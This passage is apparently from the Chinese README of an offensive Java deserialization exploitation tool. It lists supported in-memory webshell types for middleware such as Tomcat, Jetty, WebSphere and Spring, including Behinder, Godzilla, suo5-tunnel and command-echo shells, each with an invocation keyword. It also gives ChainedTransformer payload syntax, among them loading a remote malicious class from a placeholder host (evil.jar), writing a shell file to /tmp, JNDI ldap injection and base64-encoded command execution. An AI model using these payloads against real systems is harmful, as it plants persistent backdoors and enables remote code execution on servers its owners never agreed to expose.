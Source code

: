 
目前支持的直打内存马的类型包括 Tomcat、Jetty、JBoss/Wildfly、Websphere、Resin、Spring，还有以下几个暂未支持：

- GlassFish 内嵌了 Tomcat，实现类似，稍微改改即可；
- Apusic ≈ GlassFish，改包名；
- BES ≈ Tomcat，改包名；
- InforSuite ≈ Tomcat，改包名；
- Weblogic 还未实现，后续版本随着 Weblogic 的反序列化 payload 一起添加。

并可以通过关键字指定内存马的类型，如冰蝎内存马、哥斯拉 Base64 内存马、哥斯拉 RAW 内存马、CMD 命令回显马等，使用方法例子如下：

- `EX-MS-TSMSFromThread-bx`：`冰蝎` 逻辑内存马
- `EX-MS-TSMSFromThread-gz`：`哥斯拉` Base64 逻辑内存马
- `EX-MS-TSMSFromThread-gzraw`：`哥斯拉` RAW 逻辑内存马
- `EX-MS-TSMSFromThread-cmd`：`CMD` 命令回显内存马
- `EX-MS-TSMSFromThread-suo5`：`suo5` suo5 隧道马

另外还本项目目前支持了 Tocmat WebSocket、Upgrade 以及 Executor 命令执行内存马，暂未扩展成多种类型（因为相关工具不支持，需魔改），使用方法例子如下：

- `EX-MS-TWSMSFromThread` : `CMD` 命令回显 WebSocket 内存马
- `EX-MS-TEXMSFromThread` : `CMD` 命令回显 Executor 内存马
- `EX-MS-TUGMSFromJMX` : `CMD` 命令回显 Upgrade 内存马

对于一些非常规的环境，本项目还提供了基于 Java 原生的 RMI 内存马及命令回显方式，通过向 RMI 注册中心绑定一个恶意类，可以随时调用执行命令并回显，使用方法例子如下：

- `EX-MS-RMIBindTemplate-1100-su18`: `CMD` 命令回显 RMI 内存马

本工具支持的全部内存马经过测试可用，但实际受到中间件版本的限制，对于内存马的相关测试，可以参考项目 [https://github.com/su18/MemoryShell](https://github.com/su18/MemoryShell)

这里就不一一测试截图了，欢迎大家进行测试，如果问题请按文档最后的联系方式联系我。

## 针对 ChainedTransformer

本项目为其拓展了除了 Runtime 执行命令意外的多种利用方式，具体如下：

- TS ：Thread Sleep - 通过 `Thread.sleep()` 的方式来检查是否存在反序列化漏洞，使用命令：`TS-10`
- RC ：Remote Call - 通过 `URLClassLoader.loadClass()`
  来调用远程恶意类并初始化，使用命令：`RC-http://xxxx.com/evil.jar#EvilClass`
- WF ：Write File - 通过 `FileOutputStream.write()` 来写入文件，使用命令：`WF-/tmp/shell#d2hvYW1p`
- PB ：ProcessBuilder 通过 `ProcessBuilder.start()` 来执行系统命令，使用命令 `PB-lin-d2hvYW1p` / `PB-win-d2hvYW1p`
  分别在不同操作系统执行命令
- SE ：ScriptEngine - 通过 `ScriptEngineManager.getEngineByName('js').eval()` 来解析 JS 代码调用 Runtime
  执行命令，使用命令 `SE-d2hvYW1`
- DL ：DNS LOG - 通过 `InetAddress.getAllByName()` 来触发 DNS 解析，使用命令 `DL-xxxdnslog.cn`
- HL ：HTTP LOG - 通过 `URL.getContent()` 来触发 HTTP LOG，使用命令 `HL-http://xxx.com`
- BC ：BCEL Classloader - 通过 `..bcel...ClassLoader.loadClass().newInstance()` 来加载 BCEL
  类字节码，使用命令 `BC-$BCEL$xxx`
- JD ：JNDI Lookup - 通过 `InitialContext.lookup()` 来触发 JNDI 注入，使用命令 `JD-ldap://xxx/xx`
- 其他：普通命令执行 - 通过 `Runtime.getRuntime().exec()` 执行系统命令，使用命令 `whoami`

这里需要注意的是，使用 PB 执行系统命令、WF 写入文件的内容、SE 执行命令时，为了防止传参错误，需要<font color="purple">对传入的命令使用
base64 编码</font>。

除了上面的利用，项目也通过 ScriptEngineManager 执行 JS 的方式支持了 `EX-` 的写法，也就是说针对 ChainedTransformer 利用方式也可以打入内存马或回显。

**命令执行示例**：
